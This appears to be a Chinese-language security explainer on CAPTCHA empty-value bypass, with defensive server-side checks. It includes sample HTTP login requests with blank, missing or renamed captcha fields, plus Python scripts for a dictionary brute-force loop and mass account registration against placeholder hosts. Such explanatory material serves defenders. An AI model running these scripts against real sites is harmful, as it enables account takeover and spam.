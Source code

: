 ### 验证码空值绕过漏洞简介

验证码（CAPTCHA）是一种用于区分人类用户和自动化脚本的技术，广泛应用于Web应用程序中，以防止恶意行为如暴力破解、垃圾邮件、自动化注册等。验证码空值绕过漏洞是指攻击者通过发送空值或未正确填写验证码的方式，绕过验证码的校验机制，从而继续进行恶意操作。

### 验证码空值绕过漏洞的常见攻击手法

1. **空值提交**：
   - **描述**：攻击者在提交表单时，故意不填写验证码字段，或者将验证码字段设置为空值。
   - **利用方式**：如果服务器端未对验证码字段进行严格的非空校验，攻击者可以通过提交空值绕过验证码验证。
   - **示例**：
     ```http
     POST /login HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 29

     username=admin&password=123456&captcha=
     ```

2. **未提交验证码字段**：
   - **描述**：攻击者在提交表单时，完全省略验证码字段。
   - **利用方式**：如果服务器端未对验证码字段的存在性进行检查，攻击者可以通过不提交验证码字段来绕过验证。
   - **示例**：
     ```http
     POST /login HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 27

     username=admin&password=123456
     ```

3. **修改验证码字段名称**：
   - **描述**：攻击者通过修改验证码字段的名称，使其与服务器端预期的字段名称不匹配。
   - **利用方式**：如果服务器端未对验证码字段的名称进行严格校验，攻击者可以通过修改字段名称来绕过验证。
   - **示例**：
     ```http
     POST /login HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 31

     username=admin&password=123456&captcha2=abc
     ```

4. **利用服务器端逻辑缺陷**：
   - **描述**：攻击者通过分析服务器端的验证逻辑，发现并利用其中的缺陷。
   - **利用方式**：例如，服务器端可能在验证码校验失败时，仍然允许某些操作继续进行，攻击者可以利用这一点绕过验证码。
   - **示例**：
     ```http
     POST /login HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 29

     username=admin&password=123456&captcha=
     ```

### 验证码空值绕过漏洞的利用方式

1. **自动化脚本攻击**：
   - **描述**：攻击者编写自动化脚本，模拟用户登录或注册操作，通过空值绕过验证码验证。
   - **利用方式**：使用工具如Python的`requests`库，发送包含空值验证码的HTTP请求。
   - **示例**：
     ```python
     import requests

     url = "http://example.com/login"
     data = {
         "username": "admin",
         "password": "123456",
         "captcha": ""
     }
     response = requests.post(url, data=data)
     print(response.text)
     ```

2. **暴力破解**：
   - **描述**：攻击者通过自动化脚本，尝试大量用户名和密码组合，通过空值绕过验证码验证。
   - **利用方式**：结合字典攻击，发送包含空值验证码的HTTP请求，尝试破解用户账户。
   - **示例**：
     ```python
     import requests

     url = "http://example.com/login"
     usernames = ["admin", "user1", "user2"]
     passwords = ["123456", "password", "admin123"]

     for username in usernames:
         for password in passwords:
             data = {
                 "username": username,
                 "password": password,
                 "captcha": ""
             }
             response = requests.post(url, data=data)
             if "Login successful" in response.text:
                 print(f"Success: {username}:{password}")
                 break
     ```

3. **垃圾邮件和自动化注册**：
   - **描述**：攻击者通过自动化脚本，批量注册账户或发送垃圾邮件，通过空值绕过验证码验证。
   - **利用方式**：发送包含空值验证码的HTTP请求，进行批量注册或发送垃圾邮件。
   - **示例**：
     ```python
     import requests

     url = "http://example.com/register"
     for i in range(100):
         data = {
             "username": f"user{i}",
             "password": "123456",
             "email": f"user{i}@example.com",
             "captcha": ""
         }
         response = requests.post(url, data=data)
         print(response.text)
     ```

### 防御措施

1. **严格的非空校验**：
   - **描述**：在服务器端对验证码字段进行严格的非空校验，确保验证码字段不为空。
   - **实现方式**：
     ```python
     if not request.form.get("captcha"):
         return "验证码不能为空", 400
     ```

2. **字段存在性检查**：
   - **描述**：在服务器端检查验证码字段是否存在，确保客户端提交了验证码字段。
   - **实现方式**：
     ```python
     if "captcha" not in request.form:
         return "验证码字段缺失", 400
     ```

3. **字段名称校验**：
   - **描述**：在服务器端对验证码字段的名称进行严格校验，确保字段名称与预期一致。
   - **实现方式**：
     ```python
     if request.form.get("captcha") is None:
         return "验证码字段名称错误", 400
     ```

4. **逻辑完整性检查**：
   - **描述**：在服务器端确保验证码校验失败时，不允许任何操作继续进行。
   - **实现方式**：
     ```python
     if not validate_captcha(request.form.get("captcha")):
         return "验证码错误", 400
     ```

5. **使用安全的验证码库**：
   - **描述**：使用经过验证的、安全的验证码库，避免自行实现验证码逻辑带来的潜在漏洞。
   - **实现方式**：例如，使用Google reCAPTCHA等第三方验证码服务。

### 结论

验证码空值绕过漏洞是一种常见的Web安全漏洞，攻击者通过发送空值或未正确填写验证码的方式，绕过验证码的校验机制，从而进行恶意操作。为了防止此类漏洞，开发者应在服务器端进行严格的非空校验、字段存在性检查、字段名称校验和逻辑完整性检查，并使用安全的验证码库。通过这些措施，可以有效防止验证码空值绕过漏洞的发生，提高Web应用程序的安全性。

---

*文档生成时间: 2025-03-12 16:11:00*



















